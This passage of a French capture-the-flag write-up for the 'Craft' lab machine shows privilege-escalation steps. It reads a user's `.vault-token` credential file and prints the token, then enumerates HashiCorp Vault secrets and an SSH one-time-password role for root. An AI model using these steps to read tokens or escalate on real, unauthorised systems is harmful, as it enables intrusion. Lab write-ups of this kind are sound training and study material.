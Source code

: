 ##### SSH as gilfoyle

- On identifie un fichier `.vault-token`

`gilfoyle@craft:~$ ls -la`

```
total 36
[...]
-r-------- 1 gilfoyle gilfoyle   33 Feb  9 22:46 user.txt
-rw------- 1 gilfoyle gilfoyle   36 Feb  9 00:26 .vault-token
```

`gilfoyle@craft:~$ cat .vault-token`

```
f1783c8d-41c7-0b12-d1c1-cf2aa17ac6b9
```

- Cf Vault Project : https://www.vaultproject.io/

- Ainsi qu'un fichier `secrets.sh` sur Gogs : https://gogs.craft.htb/gilfoyle/craft-infra/src/master/vault/secrets.sh

```
#!/bin/bash

# set up vault secrets backend

vault secrets enable ssh

vault write ssh/roles/root_otp \
    key_type=otp \
    default_user=root \
    cidr_list=0.0.0.0/0
```

- Cf Vault Command Line Documentation  : https://www.vaultproject.io/docs/commands/index.html


`gilfoyle@craft:~$ vault secrets list`

```
Path          Type         Accessor              Description
----          ----         --------              -----------
cubbyhole/    cubbyhole    cubbyhole_ffc9a6e5    per-token private secret storage
identity/     identity     identity_56533c34     identity store
secret/       kv           kv_2d9b0109           key/value secret storage
ssh/          ssh          ssh_3bbd5276          n/a
sys/          system       system_477ec595       system endpoints used for control, policy and debugging
```

- On réutilise l'information contenus dans `secrets.sh` : `gilfoyle@craft:~$ vault read ssh/roles/root_otp`

``` 
Key                  Value
---                  -----
allowed_users        n/a
cidr_list            0.0.0.0/0
default_user         root
exclude_cidr_list    n/a
key_type             otp
port                 22
``` 
